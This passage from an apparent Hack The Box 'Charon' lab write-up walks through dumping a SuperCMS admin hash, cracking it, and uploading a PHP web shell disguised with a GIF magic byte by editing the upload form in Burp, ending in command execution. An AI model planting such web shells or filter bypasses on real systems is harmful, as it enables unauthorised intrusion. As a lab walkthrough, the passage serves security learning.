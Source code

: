 We can again use the bash script from before with the new payload but unfortunately it just enumerates users called _test1_ until _test100_ with the same MD5 hash for the word "password".
After increasing the number of the offset to 300 there is another user at row 201.

Username: super_cms_adm
Password hash: 0b0689ba94f94533400f4decd87fa260

The hash is a MD5 hash because it has 32 characters so looking it up on **Hashes.org** and the clear-text password is:
> tamarro

With these credentials it is possible to log into the website on the _/cmsdata/login.php_ page.

![SuperCMS admin page](https://kyuu-ji.github.io/htb-write-up/charon/charon_web-2.png)

### Getting command execution

On this page it is possible to upload image files so we can create a PHP shell with the magic byte for GIFs at the beginning to bypass that.
```markdown
GIF8
<?php echo system($\_REQUEST['cmd']); ?>
```

Before uploading, there has to be something changed in the HTML page source:

![HTML source code](https://kyuu-ji.github.io/htb-write-up/charon/charon_web-3.png)

The comment with the Base64 string has to be uncommented and instead of the Base64 string it has to be the decoded string.
```markdown
echo -n dGVzdGZpbGUx | base64 -d

# Output
testfile1
```

Changing the response can be accomplished with **Burpsuite** by intercepting server responses and modifying the HTML like so:
```html
<form action="upload.php" method="POST" onsubmit="javascript:return ValidateImage(this);" name="frm" enctype="multipart/form-data">
<input type="file" name="image" />
<input name="testfile1">
<input type="submit"/>
</form>
```

After forwarding the changes to the server we can input another parameter.
Now the file extension has to be gif, jpg or png so uploading works and it can be found in _/images/test.php_.

![Uploading file](https://kyuu-ji.github.io/htb-write-up/charon/charon_web-4.png)

On there we got command execution:
```markdown
http://10.10.10.31/images/test.php?cmd=whoami
```
